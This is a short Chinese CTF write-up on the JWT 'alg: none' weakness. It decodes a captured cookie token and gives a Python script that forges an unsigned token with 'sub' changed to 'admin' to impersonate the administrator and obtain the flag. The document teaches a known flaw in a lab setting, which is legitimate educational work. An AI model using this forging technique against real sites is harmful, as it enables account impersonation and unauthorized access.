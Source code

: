 # 前言

JWT支持将算法设定为“None”。如果“alg”字段设为“ None”，那么签名会被置空，这样任何token都是有效的。
设定该功能的最初目的是为了方便调试。但是，若不在生产环境中关闭该功能，攻击者可以通过将alg字段设置为“None”来伪造他们想要的任何token，接着便可以使用伪造的token冒充任意用户登陆网站。

# 开始做题

首先拿到cookie

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYwOTIzNjg3MCwiZXhwIjoxNjA5MjQ0MDcwLCJuYmYiOjE2MDkyMzY4NzAsInN1YiI6InVzZXIiLCJqdGkiOiI5NDNkMGIzMjM3ODA2NjU5ZDJlMjA1ZTQyYjMxOTQ5NCJ9.9TUQLyYKs97ceFhZQ4BzkAuug6nCgLoMAbLH88kSOwo
```

解码

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "user",
  "jti": "943d0b3237806659d2e205e42b319494"
}
```

我们需要把sub字段改为admin

但是如果把签名算法改为none的化jwt.io那个网站就无法生成，这个时候可以使用python生成

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "admin",
  "jti": "943d0b3237806659d2e205e42b319494"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)
```

将生成的字符串来替换原有的cookie获得flag